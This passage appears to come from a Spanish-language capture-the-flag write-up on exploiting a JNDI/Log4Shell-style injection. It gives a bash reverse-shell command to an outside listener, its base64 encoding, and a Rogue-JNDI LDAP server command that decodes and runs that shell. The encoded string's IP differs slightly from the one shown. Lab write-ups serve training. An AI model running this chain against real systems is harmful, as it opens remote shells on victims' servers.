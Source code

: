 Necesitamos una carga útil que nos envíe una shell reversa. Utilizaremos el siguiente comando:

```bash
bash -c 'bash -i >&/dev/tcp/10.10.16.51/4444 0>&1'
```

Luego, debemos codificar esta carga útil en base64 con el siguiente comando:

```bash
echo 'bash -c bash -i >&/dev/tcp/10.10.16.51/4444 0>&1' | base64
```

Ahora, necesitamos iniciar el servidor LDAP Rogue-JNDI con el siguiente comando. Reemplaza la cadena codificada en base64 después de `echo` con la que generaste. También reemplaza el valor de `--hostname` con tu dirección IP:

```bash
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMTAvNDQ0NCAwPiYxCg}|{base64,-d}|{bash,-i}" --hostname "10.10.16.51"
```

<figure><img src="../../../.gitbook/assets/image (670).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (671).png" alt=""><figcaption></figcaption></figure>

Enviamos un request del Repeater y nos ponemos en escucha para conectarnos.

<figure><img src="../../../.gitbook/assets/image (672).png" alt=""><figcaption></figcaption></figure>
